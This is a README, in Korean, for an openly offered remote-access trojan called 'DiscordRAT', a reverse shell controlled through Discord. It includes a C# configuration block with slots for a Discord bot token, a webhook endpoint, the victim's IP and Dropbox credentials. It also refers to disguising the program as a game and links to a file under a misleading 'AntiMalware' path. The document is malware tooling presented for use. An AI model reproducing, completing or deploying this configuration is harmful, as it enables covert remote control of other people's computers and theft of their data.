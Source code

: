 ![venom](https://capsule-render.vercel.app/api?type=venom&height=200&text=DiscordRAT&fontSize=70&color=0:8871e5,100:b678c4&stroke=b678c4)

Discord.NET 을 이용한 reverse shell
## Usage
[필수값](https://github.com/root1234567891234/Discrod_Rat/blob/master/AntiMalware/value.cs)을 수정해 봇,후크와 연동하세요
```C# 8
private static GET GET = new GET();
// 본 프로그램의 이름
public string filename = "";
// 실제 게임의 위치
public string path = "";
// 프로그램 버전
public string version = " | 2.23v";
// 디스코드 봇 토큰
public string bot_token = "";
// 웹훅링크
public string EndPoint =
@"";
// ip
public string ip = GET.ip();
// 드랍박스 연결
public DropboxClient dropbox_ = new DropboxClient(
                                      oauth2RefreshToken: "",
                                      appKey: "",
                                      appSecret: "");
// 웹에 post를 보내기위한 HttpClient선언
public HttpClient client_ = new HttpClient();
```
